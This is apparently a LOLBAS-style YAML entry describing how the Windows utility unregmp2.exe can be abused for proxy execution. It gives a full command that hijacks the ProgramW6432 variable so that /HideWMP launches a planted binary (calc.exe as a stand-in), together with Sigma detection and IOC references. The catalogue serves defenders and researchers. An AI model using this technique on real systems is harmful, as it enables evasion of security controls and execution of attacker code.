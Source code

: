 ```yaml
---
Name: Unregmp2.exe
Description: Microsoft Windows Media Player Setup Utility
Author: Wade Hickey
Created: 2021-12-06
Commands:
  - Command: rmdir %temp%\lolbin /s /q 2>nul & mkdir "%temp%\lolbin\Windows Media Player" & copy C:\Windows\System32\calc.exe "%temp%\lolbin\Windows Media Player\wmpnscfg.exe" >nul && cmd /V /C "set "ProgramW6432=%temp%\lolbin" && unregmp2.exe /HideWMP"
    Description: Allows an attacker to copy a target binary to a controlled directory and modify the 'ProgramW6432' environment variable to point to that controlled directory, then execute 'unregmp2.exe' with argument '/HideWMP' which will spawn a process at the hijacked path '%ProgramW6432%\wmpnscfg.exe'.
    Usecase: Proxy execution of binary
    Category: Execute
    Privileges: User
    MitreID: T1202
    OperatingSystem: Windows 10
    Tags:
      - Execute: EXE
Full_Path:
  - Path: C:\Windows\System32\unregmp2.exe
  - Path: C:\Windows\SysWOW64\unregmp2.exe
Detection:
  - Sigma: https://github.com/SigmaHQ/sigma/blob/197615345b927682ab7ad7fa3c5f5bb2ed911eed/rules/windows/process_creation/proc_creation_win_lolbin_unregmp2.yml
  - IOC: Low-prevalence binaries, with filename 'wmpnscfg.exe', spawned as child-processes of `unregmp2.exe /HideWMP`
Resources:
  - Link: https://twitter.com/notwhickey/status/1466588365336293385
Acknowledgement:
  - Person: Wade Hickey
    Handle: '@notwhickey'
---
```

